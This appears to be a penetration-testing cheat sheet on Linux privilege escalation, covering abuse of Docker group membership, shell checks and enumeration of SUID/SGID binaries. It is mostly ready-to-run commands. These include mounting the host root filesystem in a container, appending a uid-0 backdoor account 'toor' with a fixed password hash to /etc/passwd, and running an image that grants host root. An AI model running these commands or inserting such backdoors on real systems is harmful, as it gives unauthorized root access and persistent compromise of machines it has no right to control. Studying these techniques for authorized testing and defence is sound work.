 ##### Docker group

Mount the filesystem in a bash container, allowing you to edit the /etc/passwd as root, then add a backdoor account toor:password.

```bash
docker run -it --rm -v $PWD:/mnt bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

[rootplease](https://hub.docker.com/r/chrisfosterelli/rootplease/) is a docker image that allows you to become root on unsecure machines

```bash
docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease
```

###### Mount technique

```bash
# Mount the file
docker run -it --rm -v /:/mnt bash
# Add a backdoor account toor:password.
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

#### Sudo --shell

The **/etc/shells** is a Linux / UNIX text file which contains the full pathnames of valid login shells.

```bash
su -h # Check if we can run another shell if /etc/shells allows it
cat /etc/shells
```

#### SUID & SGID

```bash
curl https://github.com/GTFOBins/GTFOBins.github.io/tree/master/_gtfobins 2>/dev/null | grep 'href="/GTFOBins/' | grep '.md">' | awk -F 'title="' '{print $2}' | cut -d '"' -f1 | cut -d "." -f1 | sed  -e 's,^,|,' | tr '\n' ' ' | tr -d "[:blank:]" #  GTFOBins.txt
```

```bash
find / -perm -u=s -type f -print 2>/dev/null # Search for program with the SUID
find / -perm -g=s -type f -print 2>/dev/null # Search for program with the SGID
```

For more information about that technique refer to [T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/)

###### *If you don't know, now you know: [SUID](https://linux.die.net/man/2/setuid) & [SGID](https://linux.die.net/man/3/setgid)*

- **SUID** (**S**et owner **U**ser **ID** up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs.
- **SGID** (**S**et owner **G**roup **ID** up on execution) same as SUID for groups.
